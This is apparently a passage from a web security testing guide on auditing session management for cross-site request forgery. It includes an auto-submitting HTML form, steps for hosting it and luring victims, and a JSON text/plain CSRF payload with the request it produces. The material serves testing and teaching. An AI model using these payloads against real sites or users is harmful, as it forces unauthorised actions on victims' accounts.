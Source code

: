 Audit the application to ascertain if its session management is vulnerable. If session management relies only on client-side values (information available to the browser), then the application is vulnerable. "Client-side values" refers to cookies and HTTP authentication credentials (Basic Authentication and other forms of HTTP authentication; not form-based authentication, which is an application-level authentication).

Resources accessible via HTTP GET requests are easily vulnerable, though POST requests can be automated via JavaScript and are vulnerable as well; therefore, the use of POST alone is not enough to correct the occurrence of CSRF vulnerabilities.

In case of POST, the following sample can be used.

1. Create an HTML page similar to that shown below
2. Host the HTML on a malicious or third-party site
3. Send the link for the page to the victim(s) and induce them to click it.

```html
<html>
<body onload='document.CSRF.submit()'>

<form action='http://targetWebsite/Authenticate.jsp' method='POST' name='CSRF'>
    <input type='hidden' name='name' value='Hacked'>
    <input type='hidden' name='password' value='Hacked'>
</form>

</body>
</html>
```

In case of web applications in which developers are utilizing JSON for browser to server communication, a problem may arise with the fact that there are no query parameters with the JSON format, which are a must with self-submitting forms. To bypass this case, we can use a self-submitting form with JSON payloads including hidden input to exploit CSRF. We'll have to change the encoding type (`enctype`) to `text/plain` to ensure the payload is delivered as-is. The exploit code will look like the following:

```html
<html>
 <body>
  <script>history.pushState('', '', '/')</script>
   <form action='http://victimsite.com' method='POST' enctype='text/plain'>
     <input type='hidden' name='{"name":"hacked","password":"hacked","padding":"'value='something"}' />
     <input type='submit' value='Submit request' />
   </form>
 </body>
</html>
```

The POST request will be as follow:

```http
POST / HTTP/1.1
Host: victimsite.com
Content-Type: text/plain

{"name":"hacked","password":"hacked","padding":"=something"}
```
